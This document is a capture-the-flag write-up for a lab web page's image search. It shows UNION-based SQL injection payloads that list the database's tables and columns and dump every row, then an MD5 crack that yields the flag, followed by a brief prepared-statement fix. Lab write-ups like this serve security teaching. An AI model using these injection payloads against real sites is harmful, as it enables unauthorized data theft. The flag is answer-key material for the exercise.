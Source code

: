 # Where: <br>
    /?page=searchimg
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    Title: list_images
    Url :
    
-This tells us that the only table is *list_images*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: id
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: url
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: title
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: comment
    Url :
    
-This tells us that there are the following columns: *id*, *url*, *title* and *comment*.

-We then enter:

    -1 union select NULL, concat (id, url, title, comment) from list_images

-We get all the images' information.
-The 5th image has the following comment that give us a string and instructions:

    Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

-If we decrypt *1928e8083cf461a51303633093573c46* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *albatroz*
-Which we then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Fix:
Use prepared statements to prevent sql injections.
I do also believe sha256 is a better hash to use.
